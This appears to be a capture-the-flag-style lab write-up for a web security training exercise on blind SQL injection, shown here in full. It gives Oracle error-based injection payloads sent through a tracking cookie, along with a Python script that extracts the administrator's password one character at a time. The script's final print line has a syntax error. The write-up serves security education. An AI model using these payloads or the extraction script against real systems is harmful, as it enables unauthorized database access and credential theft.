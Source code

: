 # Lab: Blind SQL injection with conditional errors
> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.
>

## Step 1 : Check vul in cookie header 
`Cookie: TrackingId=yp56RjgdYZOCDcLU; session=1eiC0v7TXw3mZrOBBHCwKwwcKHZEI8Yr`

```sql
1' or 1=1-- -
```
## Step 2 : Check length
```sql
123' union select CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and length(password)=20-- -
```
=> After checking , we discovered that the database is Oracle

=> Conditional in Oracle => `CASE WHEN (CONDITION) THEN TO_CHAR(1/0) ELSE '' END FROM table_name`

`TO_CHAR(1/0)` is a divide-by-zero error => 500

## Step 3 : Code bypass
```py
import requests
import string

url='https://acaa1fa41e0d3e4cc05d039200b7009c.web-security-academy.net/'
chars = string.printable[:-6]
#print(chars)
admin_pass=''
i=1
s=requests.Session()
s.get(url)

while True:
	for c in chars:
		payload = f"1' union select CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,{i},1)='{c}'-- -"
		cookie1={"TrackingId":payload}
		r = requests.get(url,cookies=cookie1)
		print(c)
		if r.status_code == 500:
			print('okeeeeeeeeeee')
			admin_pass+=c 
			i+=1
			print(admin_pass)
			break
		if(i==21):
			print('password administrator :' admin_pass)
			exit()
```

